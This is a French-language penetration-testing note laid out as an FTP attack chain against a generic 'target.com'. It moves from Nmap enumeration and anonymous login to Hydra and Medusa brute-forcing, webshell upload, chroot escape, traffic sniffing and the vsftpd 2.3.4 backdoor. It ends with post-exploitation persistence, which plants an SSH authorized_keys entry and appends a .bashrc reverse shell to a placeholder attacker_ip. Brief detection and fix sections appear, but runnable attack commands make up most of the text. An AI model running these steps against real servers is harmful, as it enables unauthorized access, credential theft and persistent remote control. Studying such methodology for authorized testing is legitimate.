

## Chaîne d'attaque FTP



## Utilisation de scripts Nmap pour l'énumération complète

L'utilisation des scripts NSE (Nmap Scripting Engine) permet d'automatiser la découverte de la configuration et des vulnérabilités potentielles. Voir la note liée : [[Nmap]].

```bash
nmap -p 21 --script ftp-anon,ftp-syst,ftp-vuln target.com
```

| Script | Description |
| :--- | :--- |
| `ftp-anon` | Vérifie si le serveur autorise la connexion anonyme. |
| `ftp-syst` | Tente d'identifier le type de système d'exploitation et le daemon FTP. |
| `ftp-vuln` | Vérifie la présence de vulnérabilités connues sur la version détectée. |

## Accès Anonyme

L'accès **anonyme** permet une connexion sans authentification préalable, facilitant l'énumération de fichiers sensibles. Voir la note liée : [[Enumeration]].

### Exploitation

```bash
ftp target.com
# Identifiant : anonymous
# Mot de passe : (laisser vide)
```

Sortie attendue :
```text
230 Login successful.
```

> [!info]
> Une connexion réussie permet généralement de lister, télécharger ou uploader des fichiers selon les permissions du répertoire racine.

## Brute-force des identifiants (Hydra/Medusa)

Si l'accès anonyme est désactivé, le brute-force des identifiants est une méthode standard pour obtenir un accès valide.

```bash
hydra -L users.txt -P passwords.txt ftp://target.com
```

```bash
medusa -h target.com -u admin -P passlist.txt -M ftp
```

> [!warning]
> Le brute-force peut déclencher des mécanismes de détection d'intrusion (IDS) ou de verrouillage de compte.

## Permissions de Fichiers

Des permissions trop permissives permettent la modification ou la suppression de fichiers, voire l'exécution de code arbitraire.

### Exploitation

```bash
ftp target.com
ls -la
```

Sortie attendue :
```text
-rw-rw-rw-  1 ftp  ftp  1024 Dec 10  2024 passwords.txt
```

Test d'upload de fichier :
```bash
put shell.php
```

> [!danger]
> L'upload de webshells sur un serveur de production peut entraîner une compromission totale du serveur web associé. Voir la note liée : [[Webshells]].

## Mauvaise Configuration du Chroot Jail

Un **chroot** mal configuré permet à un utilisateur de s'échapper du répertoire racine FTP pour naviguer dans le système de fichiers.

### Exploitation

```bash
ls -la
cd ..
cd ..
ls
```

> [!note]
> La condition critique pour le succès de l'évasion **chroot** dépend de la configuration spécifique du daemon FTP.

## FTP en Clair (MITM)

Le protocole FTP transmet les données en clair, rendant les identifiants vulnérables aux attaques **MITM** et au sniffing réseau. Voir la note liée : [[Tcpdump]].

### Exploitation

Capture du trafic avec **tcpdump** :

```bash
tcpdump -i eth0 port 21 -w ftp_traffic.pcap
```

> [!warning]
> Prérequis : La capture de trafic nécessite des privilèges root sur la machine attaquante.

Analyse des identifiants dans **Wireshark** :
- Filtre : `ftp.request.command == "USER"`
- Filtre : `ftp.request.command == "PASS"`

## Analyse des logs FTP pour détection

L'analyse des logs permet d'identifier les tentatives d'accès non autorisées ou les comportements anormaux.

```bash
# Emplacement typique des logs sur Linux
tail -f /var/log/vsftpd.log
```

Recherche d'échecs de connexion :
```bash
grep "FAIL LOGIN" /var/log/vsftpd.log
```

## Techniques de post-exploitation après accès FTP

Une fois l'accès obtenu, l'objectif est d'établir une persistance ou d'élever ses privilèges. Voir la note liée : [[Linux]].

### Upload de clés SSH
Si le répertoire `.ssh` est accessible en écriture :
```bash
mkdir .ssh
put id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

### Modification de fichiers .bashrc
Pour obtenir un reverse shell lors de la prochaine connexion de l'utilisateur :
```bash
echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> .bashrc
```

## FTP Bounce Attack

Cette vulnérabilité permet d'utiliser le serveur FTP comme relais pour scanner des ports sur d'autres machines du réseau interne.

### Exploitation

```bash
nmap -p 21 --script=ftp-bounce target.com
```

Sortie attendue :
```text
FTP bounce attack possible!
```

## Exploitation de versions vulnérables

Certaines versions de serveurs FTP, comme **vsftpd 2.3.4**, contiennent des backdoors intégrées.

### Exploitation vsftpd 2.3.4

Vérification de la version :
```bash
nc target.com 21
```

Sortie attendue :
```text
220 (vsFTPd 2.3.4)
```

Exploitation de la backdoor :
```bash
nc target.com 6200
```

Sortie attendue :
```text
id
uid=0(root) gid=0(root) groups=0(root)
```

> [!danger]
> L'exploitation de la backdoor **vsftpd 2.3.4** donne un accès root immédiat, à utiliser avec précaution en environnement de test.

### Mise à jour

```bash
apt update && apt upgrade vsftpd
```

## Tableau récapitulatif des configurations

| Problème | Exploitation | Solution |
| :--- | :--- | :--- |
| Accès Anonyme | `ftp target.com` | `anonymous_enable=NO` |
| Permissions Laxistes | `put shell.php` | `write_enable=NO` |
| Mauvais Chroot Jail | `cd ..` | `chroot_local_user=YES` |
| FTP en Clair | `tcpdump -i eth0 port 21` | `ssl_enable=YES` |
| FTP Bounce Attack | `nmap --script=ftp-bounce` | `pasv_enable=NO` |
| vsftpd 2.3.4 Backdoor | `nc target.com 6200` | Mise à jour **vsftpd** |